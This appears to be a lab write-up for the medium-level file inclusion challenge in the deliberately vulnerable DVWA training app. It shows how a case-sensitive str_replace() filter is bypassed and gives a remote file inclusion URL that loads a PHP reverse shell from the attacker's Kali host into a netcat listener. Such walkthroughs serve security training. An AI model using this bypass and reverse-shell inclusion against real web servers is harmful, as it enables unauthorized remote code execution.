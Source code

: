 <b>Challenge URL:</b> /dvwa/vulnerabilities/fi/
<br>
<b>Objective:</b> Read all five famous quotes from <b>../hackable/flags/fi.php</b> using only file inclusion.
<br>
<b>Tools needed:</b> A reverse shell, a temporary web server on Kali, netcat
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/keewenaw/dvwa-guide-2019/blob/master/medium/README.md" target="_blank">README</a>?</i>

<h2><b>The Guide</b></h2>

<i>Since this challenge is very similar to the easy mode challenge, I'd highly recommend re-reading <a href="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/Challenge%2004:%20File%20Inclusion.md" target="_blank">our notes from before</a>. We'll be using a lot of the analysis and code from before.</i>

<h3><b>What's Changed</b></h3>

As always, let's start by clicking the "View Source" button on the bottom right of the challenge.

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/medium/screenshots/fisource.png" width="500">

We see that the code tries to remove all strings fitting the format <code>http&#58;//</code>, <code>https&#58;//</code>, <code>../</code> or <code>..\\</code>. The developers hoped to protect against remote file inclusion with the first two strings and local file inclusions with the last two. Let's see how effective they are.

<h3><b>Crafting a New Exploit</b></h3>

When reading documentation on <code><a href="https://www.w3schools.com/php/func_string_str_replace.asp" target="_blank">str_replace()</a></code>, we note a key line as follows:

<blockquote>Note: This function is case-sensitive. Use the str_ireplace() function to perform a case-insensitive search.</blockquote>

That means that anything that does not match <code>http&#58;//</code>, <code>https&#58;//</code>, <code>../</code> or <code>..\\</code> EXACTLy will still work. So let's modify our easy mode exploit by converting <code>http</code> to <code>HTTP</code> and try to replicate the exploit:

<b>http&#58;//dvwa/dvwa/vulnerabilities/fi/?page=HTTP&#58;//</b>[your_Kali_IP]<b>:9999/php-reverse-shell.php</b>

And check our <code>netcat</code> listener:

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/medium/screenshots/ficomplete.png" width="500">

... And it really was that easy. Challenge complete!

